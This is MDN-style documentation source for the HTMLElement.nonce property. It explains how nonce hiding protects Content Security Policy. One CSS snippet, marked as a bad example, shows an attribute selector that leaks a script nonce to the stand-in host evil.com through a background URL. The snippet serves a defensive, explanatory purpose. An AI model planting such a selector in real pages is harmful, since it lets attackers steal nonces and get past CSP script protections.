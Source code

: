 ```yaml
---
title: "HTMLElement: nonce property"
short-title: nonce
slug: Web/API/HTMLElement/nonce
page-type: web-api-instance-property
browser-compat: api.HTMLElement.nonce
sidebar:
  - apiref:
      - HTML DOM
---
```


The **`nonce`** property of the {{DOMxRef("HTMLElement")}} interface returns the cryptographic number used once that is used by [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use [`getAttribute`](/en-US/docs/Web/API/Element/getAttribute) as a fallback:

```js
let nonce = script["nonce"] || script.getAttribute("nonce");
```

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data from content attributes like this CSS selector:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`nonce` global attribute](/en-US/docs/Web/HTML/Reference/Global_attributes/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}
